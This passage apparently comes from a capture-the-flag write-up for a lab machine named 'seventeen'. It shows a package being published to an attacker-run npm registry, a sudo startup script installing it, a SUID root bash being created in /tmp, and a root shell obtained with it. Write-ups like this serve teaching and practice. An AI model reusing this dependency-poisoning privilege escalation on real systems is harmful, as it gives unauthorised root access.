 ```bash
npm notice total files:   2                                       
npm notice 
npm notice Publishing to http://10.10.14.15:4873/ with tag latest and default access
+ loglevel@1.9.3
```

Then, I ran `startup.sh`.

```bash
kavi@seventeen:/opt/app$ sudo /opt/app/startup.sh
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] Installing loglevel
/opt/app
├── loglevel@1.9.3 
└── mysql@2.18.1 

[+] Starting the app
/opt/app/index.js:26
        logger.log("INFO:  Server running on port " + port)
               ^

TypeError: logger.log is not a function
    at Server.<anonymous> (/opt/app/index.js:26:16)
    at Object.onceWrapper (events.js:313:30)
    at emitNone (events.js:106:13)
    at Server.emit (events.js:208:7)
    at emitListeningNT (net.js:1394:10)
    at _combinedTickCallback (internal/process/next_tick.js:135:11)
    at process._tickCallback (internal/process/next_tick.js:180:9)
    at Function.Module.runMain (module.js:695:11)
    at startup (bootstrap_node.js:188:16)
    at bootstrap_node.js:609:3
```

Then, I can see that `rootbash` has been created.

```bash
kavi@seventeen:/opt/app$ ls -al /tmp/rootbash
-rwsr-xr-x 1 root root 1113504 Mar 16 16:38 /tmp/rootbash
```

Using this binary, I can get a shell as `root`.

```bash
kavi@seventeen:/tmp$ ./rootbash -p
rootbash-4.4# whoami
root
rootbash-4.4# id
uid=1000(kavi) gid=1000(kavi) euid=0(root) groups=1000(kavi)
```
